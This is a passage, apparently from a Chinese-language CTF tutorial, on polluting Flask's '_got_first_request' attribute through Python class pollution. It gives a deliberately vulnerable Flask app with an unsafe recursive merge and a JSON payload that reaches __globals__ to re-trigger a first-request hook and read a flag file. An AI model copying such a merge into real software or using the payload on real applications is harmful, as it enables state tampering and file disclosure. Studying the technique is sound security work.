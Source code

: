#### \_got\_first\_request污染

用于判定是否某次请求为自`Flask`启动后第一次请求，是`Flask.got_first_request`函数的返回值，此外还会影响装饰器`app.before_first_request`的调用，而`_got_first_request`值为假时才会调用：

```python
from flask import Flask,request
import json

app = Flask(__name__)

def merge(src, dst):
    # Recursive merge function
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)

class cls():
    def __init__(self):
        pass

instance = cls()

flag = "Is flag here?"

@app.before_first_request
def init():
    global flag
    if hasattr(app, "special") and app.special == "U_Polluted_It":
        flag = open("flag", "rt").read()

@app.route('/',methods=['POST', 'GET'])
def index():
    if request.data:
        merge(json.loads(request.data), instance)
    global flag
    setattr(app, "special", "U_Polluted_It")
    return flag

app.run(host="0.0.0.0")
```

链子

```python
payload={
    "__init__":{
        "__globals__":{
            "app":{
                "_got_first_request":False
            }
        }
    }
}
```
